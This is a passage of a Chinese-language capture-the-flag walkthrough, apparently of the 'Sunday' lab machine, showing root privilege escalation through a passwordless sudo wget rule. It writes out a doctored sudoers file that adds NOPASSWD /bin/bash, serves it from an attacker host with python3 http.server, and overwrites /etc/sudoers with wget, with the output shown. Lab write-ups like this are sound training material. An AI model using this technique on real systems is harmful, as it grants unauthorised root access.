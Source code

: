 # Same thing without a password
# %wheel        ALL=(ALL) NOPASSWD: ALL

# Samples
# %users  ALL=/sbin/mount /cdrom,/sbin/umount /cdrom
# %users  localhost=/sbin/shutdown -h now
sammy ALL=(root) NOPASSWD: /usr/bin/wget
sunny ALL=(root) NOPASSWD: /root/troll
```

4. 在本地把上面文件内容保存为sudoers，并且在最下方添加下面这行


> sammy  ALL=(root) NOPASSWD: /bin/bash


5. 在kali开启一个http服务
> python3 -m http.server

6. 靶机接收文件，并且覆盖到```/etc/sudoers```
sudo /usr/bin/wget http://10.10.14.6:8000/sudoers -O /etc/sudoers




```
sunny@sunday:/home$ sudo /usr/bin/wget http://10.10.14.6:8000/sudoers -O /etc/sudoers
--08:27:33--  http://10.10.14.6:8000/sudoers
           => `/etc/sudoers'
Connecting to 10.10.14.6:8000... 已连接。
已发出 HTTP 请求，正在等待回应... 200 OK
长度：850 [application/octet-stream]

100%[================================================================================================================================================================================================>] 850           --.--K/s             

08:27:34 (1.01 MB/s) - `/etc/sudoers' saved [850/850]

```

现在查看，我们有了bash特权

```
sunny@sunday:/home$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
    (root) NOPASSWD: /bin/bash
